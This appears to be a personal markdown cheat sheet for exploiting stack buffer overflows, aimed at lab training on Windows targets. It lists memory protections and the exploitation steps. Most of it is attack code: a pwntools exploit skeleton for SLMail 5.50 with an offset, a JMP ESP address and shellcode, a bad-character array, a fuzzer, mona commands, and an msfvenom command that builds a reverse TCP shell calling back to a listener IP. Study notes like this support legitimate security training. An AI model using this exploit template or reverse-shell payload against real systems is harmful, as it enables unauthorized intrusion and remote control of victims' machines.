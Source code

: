 # Buffer Overflow Notes

## General Notes

### Windows Memory Protections
| Name               | Use                                                                                                      |
| ------------------ |:--------------------------------------------------------------------------------------------------------:|
| SafeSEH            | Protects stack-based execption handler chains from being overwritten in 32-bit applications.             |
| DEP (nxcompat)     | Marks stack, heap and memory pool regions as non-executable, terminating the process if it is attempted. |
| ASLR               | Lowers exploit reliability by randomizing allocated stack/heap/library memory areas.                     |
| Stack Canary       | Adds a value between function variables and return address which is checked in the function epilogiue.   |
| Heap Protection    | Methods including safe unlinking and heap cookies to protect against heap chunk overwrites.              |

## Exploitation

### 1. Generic process
1. Determine vulnerability via fuzzing or code review
2. Demonstrate crash in debugger
3. Review crash details, see state of registers for potential placement of exploit code.  
- Example: Is the EAX register pointing to any location where the user can place input? (JMP EAX)
4. Determine offset
5. Determine bad characters
6. Find jmp/call instruction
7. Sanity check with interrupts
8. Construct shellcode
9. Exploit
  
### 2. Useful instructions:
| Instruction        | Use                                          |
| ------------------ |:--------------------------------------------:|
| JMP ESP (0xFFE4)   | Jump to the stack pointer to begin execution |
| CALL ESP (0xFFD4)  | Push ESP onto stack and then jump to execute |
| INT3 (0xCC)        | Halt execution                               |
  
Can check what instructions are using `msf-nasm-shell`.

### 3. Typical pwntools exploit structure
Taken from SLMail 5.50 exploit.
```python
io = start()

jmpesp = '\x8f\x35\x4a\x5f'

shellcode =  ""
shellcode += "\xd9\xc0\xba\x14\xf9\xdc\xcf\xd9\x74\x24\xf4\x5b\x33" # etc

exploit = 'A' * 2606 + jmpesp + '\x90' * 32 + shellcode

info(io.recv(4096))
io.sendline('USER jack')
info(io.recv(4096))
io.sendline(f'PASS {exploit}')
info(io.recv(4096))
```

### 4. Bad bytes array
```python
chars = ""
chars += "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
1. Start with full set
2. Check dump and see what's missing
3. Remove it and run again until entire string makes it through intact.

### 5. Simple fuzzing function
For use in pwntools.
```python
def fuzz():
    print('Fuzzing target....')
    for i in range(0, 5000, 100):

        info(f'Sending length: {str(i)}')
        payload = cyclic(i)

        try:
            io = start()
        except PwnlibException as e:
            quit()

        io.sendline(f'{payload}') # Format this line accordingly
        io.close()
```

## Windows Exploitation
### Immunity Debugger and Mona.py
- Mona: https://github.com/corelan/mona

### Mona Commands
1. Search for libraries
```
!mona modules
```
2. Searching for JMP ESP
```
!mona find -s "\xFF\xE4" -m essfunc.dll
```
**Reminder: Any chosen address which goes into an exploit must not have bad characters**
  
### MSFVenom payloads
1. Reverse shell TCP (unstaged) example
```bash
msfvenom --arch x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.34.138 LPORT=9999 --var-name shellcode -b '\x00' -f python
```